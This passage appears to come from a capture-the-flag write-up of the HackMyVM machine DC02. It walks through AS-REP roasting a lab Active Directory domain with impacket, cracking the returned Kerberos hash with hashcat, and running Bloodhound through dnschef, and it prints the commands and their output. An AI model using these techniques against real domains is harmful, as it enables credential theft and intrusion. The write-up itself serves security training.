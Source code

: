 Now that we have a list of all usernames in the domain, we can use it to enumerate and request the ticket-granting ticket for any user with Kerberos pre-authentication disabled.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/DC02/Scans/AD Enumeration]
└─$ impacket-GetNPUsers  SOUPEDECODE.LOCAL/ -dc-ip 10.0.2.32 -no-pass -usersfile domain_users.txt | grep -v  '[-]'

$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:8616d1dbb1d6e76628f5969bcff763d0$a5e912d2acd9567b7620ee0572792f345f6a647dcbddcb0d69b707ccc0ed7cd28aadd0fa996fdd644cf733b67d9bc4b3949af5e68515939f56fd2cec0ca78c81fcc7ca5442159847c5e1062c04eff9e8299ba29e760e304faa8ed3b0e87027f2bb57a5f54284ad5232c27f215e1ef1dc9587183999ecc5acfa4c2ec953eb61a3ca6448c6aa22bdf66b5abea516548350397a8db21010096fbdddf85c961195f7d3531da0c87fd9d3dd586366b1766bc20f429b354406b574bb7261a89ec14d6ecb7fd7ed96e8e2fdd379fb049f1affd3481dae8ac0362a73b217b8b3bb9e46e5ab7fd6d25fa99521c4b23f8fd0cfbf762df26d395493
```

We could retrieve the TGT of the user zximena448. We can crack the hash used to encrypt this TGT using Hashcat.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/DC02/Misc Files]
└─$hashcat -a 0 -m 18200 user.tgt /usr/share/wordlists/rockyou.txt
<SNIP>
$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:8616d1dbb1d6e76628f5969bcff763d0$a5e912d2acd9567b7620ee0572792f345f6a647dcbddcb0d69b707ccc0ed7cd28aadd0fa996fdd644cf733b67d9bc4b3949af5e68515939f56fd2cec0ca78c81fcc7ca5442159847c5e1062c04eff9e8299ba29e760e304faa8ed3b0e87027f2bb57a5f54284ad5232c27f215e1ef1dc9587183999ecc5acfa4c2ec953eb61a3ca6448c6aa22bdf66b5abea516548350397a8db21010096fbdddf85c961195f7d3531da0c87fd9d3dd586366b1766bc20f429b354406b574bb7261a89ec14d6ecb7fd7ed96e8e2fdd379fb049f1affd3481dae8ac0362a73b217b8b3bb9e46e5ab7fd6d25fa99521c4b23f8fd0cfbf762df26d395493:<REDACTED>
                                                          
<SNIP>
Hardware.Mon.#1..: Temp: 75c Util: 31%

Started: Sun Oct 13 16:00:18 2024
Stopped: Sun Oct 13 16:00:43 2024
```

## Post Exploitation

Now that we have gathered all the credentials we could from  a blind perspective, let's run the Bloodhound tool from our attack host. We can do this by setting up a fake DNS server using `dnschef` and running Bloodhound by giving it the IP address of our fake DNS server for name resolution.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC02/dnschef]
└─$ dnschef --fakeip 10.0.2.32
          _                _          __  
         | | version 0.4  | |        / _| 
       __| |_ __  ___  ___| |__   ___| |_ 
      / _` | '_ \/ __|/ __| '_ \ / _ \  _|
     | (_| | | | \__ \ (__| | | |  __/ |  
      \__,_|_| |_|___/\___|_| |_|\___|_|  
                   iphelix@thesprawl.org  

(14:49:39) [*] DNSChef started on interface: 127.0.0.1
(14:49:39) [*] Using the following nameservers: 8.8.8.8
(14:49:39) [*] Cooking all A replies to point to 10.0.2.32
```
```bash
┌──(pentester㉿kali)-[~/…/Scans/AD Enumeration/Bloodhound/BloodHound.py]
└─$ bloodhound-python  -u zximena448 -p <REDACTED> -ns 127.0.0.1 -d SOUPEDECODE.LOCAL  -dc DC01.SOUPEDECODE.LOCAL   --zip
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Getting TGT for user
INFO: Connecting to LDAP server: DC01.SOUPEDECODE.LOCAL
INFO: Kerberos auth to LDAP failed, trying NTLM
```